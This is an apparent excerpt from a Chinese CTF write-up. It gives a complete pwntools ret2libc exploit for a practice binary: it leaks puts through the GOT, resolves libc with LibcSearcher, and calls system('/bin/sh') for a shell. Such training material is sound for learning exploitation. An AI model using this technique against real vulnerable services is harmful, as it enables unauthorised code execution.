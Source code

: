 泄露`__libc_start_main`的可能性太多了，可以直接泄露puts函数，直接成功了

```
from pwn import *
from LibcSearcher import *
p = process('./ret2libc3')
elf = ELF('./ret2libc3')
# context(os='linux', arch = 'amd64', log_level = 'debug')
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
# start_addr = elf.symbols['main']
start_addr = elf.symbols['_start']
payload1 = cyclic(112) + p32(puts_plt) + p32(start_addr) + p32(puts_got)

p.sendlineafter("Can you find it !?", payload1)
# p.sendline(payload)
puts_real_addr = u32(p.recv()[0:4])  #接收libc_start_main的真实地址，占4个字节

print("puts_plt:{}, puts_got: {}, start_addr: {}".format(hex(puts_plt), hex(puts_got), hex(start_addr)))
print("puts_real_addr: ", hex(puts_real_addr))

libc = LibcSearcher('puts', puts_real_addr)
libcbase = puts_real_addr - libc.dump('puts')
system_addr = libcbase + libc.dump('system')
bin_sh_addr = libcbase + libc.dump('str_bin_sh')

payload2 = cyclic(112) + p32(system_addr) + p32(0x1) + p32(bin_sh_addr)
p.sendline(payload2)
p.interactive()

```

![image-20240301191923402](images/54.png)
